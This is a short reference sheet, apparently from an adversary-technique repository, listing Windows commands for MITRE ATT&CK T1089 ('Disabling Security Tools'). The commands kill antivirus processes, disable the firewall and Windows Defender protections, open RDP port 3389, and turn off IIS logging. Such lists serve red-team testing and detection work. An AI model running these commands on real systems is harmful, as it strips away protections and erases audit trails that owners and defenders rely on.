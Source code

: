 # Disabling Security Tools

MITRE ATT&CK Technique: [T1089](https://attack.mitre.org/wiki/Technique/T1089)

### Terminate Anti-Virus Processes
    Taskkill /F /IM avprocess.exe

### Disable Firewall
    netsh firewall set opmode disable

### Stop Windows Security Center
    net stop wscsvc

### Add Local Firewall Rule Exceptions : Enable a Program
    netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

### Add Local Firewall Rule Exceptions : Enable a Port
    netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

### Disable The LAN Network Connection
    netsh interface set interface name="Local Area Connection" admin=disabled

## Stop Windows Defender

### Windows 7/8
    net stop windefend

### Windows 10
    Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
    Set-MpPreference -DisableIOAVProtection $true -Verbose
    Set-MpPreference -DisableBehaviorMonitoring $true -Verbose
    Set-MpPreference -DisableIntrusionPreventionSystem $true -Verbose
    Set-MpPreference -DisablePrivacyMode $true -Verbose

## Disable Default Web Site Logging IIS 7

### Disable Default Web Site Logging IIS 7
    %windir%\system32\inetsrv\appcmd.exe set config "Default Web Site" -section:system.webServer/httpLogging /dontLog:"True" /commit:apphost

### Restart Default Web Site IIS 7
    %windir%\system32\inetsrv\appcmd.exe stop site /site.name:"Default Web Site" && %windir%\system32\inetsrv\appcmd.exe start site /site.name:"Default Web Site"
